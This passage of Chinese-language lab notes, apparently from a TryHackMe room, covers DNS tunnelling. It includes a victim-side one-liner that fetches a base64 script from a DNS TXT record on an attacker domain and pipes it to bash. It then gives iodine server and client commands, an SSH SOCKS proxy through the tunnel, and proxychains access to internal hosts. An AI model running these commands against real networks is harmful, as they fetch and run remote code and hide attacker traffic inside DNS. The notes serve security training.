             ```
            thm@victim2$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
            ```
            
            - `tr -d "\""`: 去除 `dig` 输出中 TXT 记录内容两边的引号。
- **4. DNS 隧道 (使用 `iodine`)**:
    - **原理**: 将 IP 流量封装在 DNS 查询和响应中，从而在客户端和服务器之间建立一个虚拟 IP 层隧道。所有通过此隧道的流量实际上都是通过 DNS 协议传输的。
    - **工具**: `iodined` (服务器端), `iodine` (客户端)。
    - **步骤**:
        1. **DNS 配置**: 确保有一个 NS 记录指向运行 `iodined` 的攻击者机器 (如 `att.tunnel.com` 指向 AttackBox IP)。
        2. **攻击者机器 (运行 `iodined` 服务器)**:
            
            Bash
            
            ```
            thm@attacker$ sudo iodined -f -c -P <tunnel_password> 10.1.1.1/24 att.tunnel.com
            ```
            
            - `-f`: 前台运行。
            - `-c`: 禁止检查客户端源 IP。
            - `-P <tunnel_password>`: 设置隧道连接密码。
            - `10.1.1.1/24`: 为隧道分配的虚拟子网，服务器将使用 `10.1.1.1`。
            - `att.tunnel.com`: 客户端将查询此域名。
            - 成功后会创建一个名为 `dns0` 的虚拟网络接口。
        3. **受害者机器/跳板机 (运行 `iodine` 客户端)**:
            
            Bash
            
            ```
            thm@jump-box:~$ sudo iodine -P <tunnel_password> att.tunnel.com
            ```
            
            - `-P <tunnel_password>`: 连接密码。
            - `att.tunnel.com`: 要连接的服务器域名。
            - 成功后，客户端的 `dns0` 接口会被分配一个 IP (如 `10.1.1.2`)。
        4. **通过 DNS 隧道建立 SSH SOCKS 代理**: 在攻击者机器上 (或任何能访问 `iodined` 服务器的机器，通过 `dns0` 接口的IP)：
            
            Bash
            
            ```
            root@attacker$ ssh user_on_jumpbox@10.1.1.2 -4 -f -N -D 1080
            ```
            
            - `user_on_jumpbox@10.1.1.2`: SSH 到跳板机在 `dns0` 接口上的隧道 IP。
            - `-4`: 仅使用 IPv4。
            - `-f`: 后台运行 SSH。
            - `-N`: 不执行远程命令 (仅用于端口转发)。
            - `-D 1080`: 在本地 `1080` 端口创建动态 SOCKS 代理。
        5. **通过 SOCKS 代理访问目标网络**: 配置本地工具 (如 `proxychains`, `curl --socks5`, 浏览器) 使用 `127.0.0.1:1080` 代理。
            
            Bash
            
            ```
            root@attacker$ proxychains curl http://<internal_target_ip_accessible_from_jumpbox>/demo.php
            ```